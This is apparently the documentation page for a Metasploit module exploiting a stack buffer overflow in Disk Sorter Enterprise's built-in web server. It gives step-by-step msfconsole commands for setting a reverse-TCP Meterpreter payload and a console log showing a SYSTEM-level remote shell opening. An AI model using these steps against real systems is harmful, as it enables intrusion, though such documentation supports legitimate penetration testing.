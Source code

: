 ## Vulnerable Application

[Disk Sorter Enterprise](http://www.disksorter.com) versions up to v9.5.12 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 7 SP1. The vulnerable application is available for download at [Exploit-DB](https://www.exploit-db.com/apps/5ffae2c1a4b2165e0dd2a8e37765ef0e-disksorterent_setup_v9.5.12.exe).

## Verification Steps
  1. Install a vulnerable Disk Sorter Enterprise
  2. Start `Disk Sorter Enterprise` service
  3. Start `Disk Sorter Enterprise` client application
  4. Navigate to `Tools` > `Disk Sorter Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/disksorter_bof`
  8. Do `set RHOST ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

###Disk Sorter Enterprise v9.5.12 on Windows 7 SP1

```
msf exploit(disksorter_bof) > show options 

Module options (exploit/windows/http/disksorter_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    172.16.0.9       yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.0.20      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Disk Sorter Enterprise v9.5.15


msf exploit(disksorter_bof) > exploit 

[*] Started reverse TCP handler on 172.16.0.20:4444 
[*] Sending request...
[*] Sending stage (957487 bytes) to 172.16.0.9
[*] Meterpreter session 1 opened (172.16.0.20:4444 -> 172.16.0.9:59371) at 2017-04-24 14:46:52 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
